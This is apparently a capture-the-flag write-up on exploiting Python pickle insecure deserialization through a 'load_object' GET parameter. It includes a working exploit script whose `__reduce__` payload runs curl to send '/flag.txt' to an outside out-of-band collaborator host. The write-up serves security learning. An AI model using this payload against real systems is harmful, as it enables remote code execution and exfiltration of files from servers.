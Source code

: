 ![image](md/e1a9a542-c019-45ff-8f29-1901a0346a4c.webp)


Here if GET parameter `load_object` is present it will pass it to `pickle.loads(base64.b64decode(load_object))`.

`pickle.loads()` is used to unpickle (deserialize) the data and takes a variable containing byte stream as a valid argument.

It is vulnerable to pickle insecure deserialization.

To exploit this vulnerability, we will use `__reduce__` method. \
`__reduce__` allows you to define a custom way to reconstruct the object during deserialization. It can be used for execution of arbitrary code during deserialization.

I wasted so much time on payload making because i was using `os.system` but it didn't work at last `subprocess.Popen` worked.

> [!NOTE]
> It won't work because `os.system` method uses respective shell of the Operating system that it is running on so for `os.system` to work during Deserialization we need to Serialize the payload on the machine that matches the target OS. \
> Here target is running Linux so Windows won’t work


python exploit code:

```python
import pickle
import base64
import os
import requests


class RCE:
    def __reduce__(self):
        import os
        import subprocess
        return (subprocess.Popen, (('curl','bwb2r04nf32cz2y75mho7eus4jaay8mx.oastify.com', '-d', '@/flag.txt'),0))

pickled = pickle.dumps(RCE())
x2 = base64.b64encode(pickled).decode()

r = requests.get(f"https://dsw3qg.wizer-ctf.com/profile?load_object={x2}",proxies={'http':'http://127.0.0.1:8080'})
print(r.text)
```
